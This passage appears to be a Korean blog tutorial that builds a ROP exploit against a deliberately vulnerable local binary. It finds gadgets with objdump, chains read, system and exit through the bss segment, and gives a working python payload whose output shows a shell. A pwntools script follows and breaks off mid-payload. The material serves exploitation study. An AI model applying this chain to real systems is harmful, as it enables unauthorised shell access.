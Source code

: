 그 다음 Gadget 주소를 찾아야 한다. 위에서 했던 방식대로 pop ret, 주소와 pop pop pop ret 주소를 찾아보자.

```
$ objdump -d [컴파일 된 파일명]
...
...
80484d8:       5b                      pop    %ebx
80484d9:       5e                      pop    %esi
80484da:       5f                      pop    %edi
80484db:       5d                      pop    %ebp
80484dc:       c3                      ret    
...
```

필요한 주소는 0x80484d9와 0x80484db 이다.

최종적인 스택의 구조는 다음과 같다.

```
[&read()] + [pop pop pop ret] + [0x0] + [&bss] + [0x8] + [&system()] + [pop ret] + [&bss] + [&exit()] 
```

위 payload 주소를 참고하여 아래와 같이 바이너리를 실행해보자.

```
$ (python -c 'print "A"*54+"\x20\xa6\xec\xf7"+"\xd9\x84\x04\x08"+"\x00\x00\x00\x00"+"\x20\xa0\x04\x08"+"\x08\x00\x00\x00"+"\x10\x1d\xe2\xf7"+"\xdb\x84\x04\x08"+"\x20\xa0\x04\x08"+"\x70\x4f\xe1\xf7"'; cat ) | ./vuln                  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ل
/bin/sh

ls
code  code.c    vuln  vuln.c

```

최종적으로 shell을 획득한 것을 볼 수 있다.


---

### 0x03 Payload using pwntools

python의 pwntools를 이용해서 스크립트를 짜보면 아래와 같다.

```python 
from pwn import *
import time


p = process('./vuln')

read = 0xf7eca620
system = 0xf7e21d10
exit = 0xf7e14f70
bss = 0x0804a020

pop3ret = 0x080484d9
popret = 0x080484db

payload = "A"*54
payload += p32(read)
payload += p32(pop3ret)
payload += p32(0x0)
payload += p32(bss)
payload += p32(0x8)
payload += p32(system)
payload += p32(popret)
```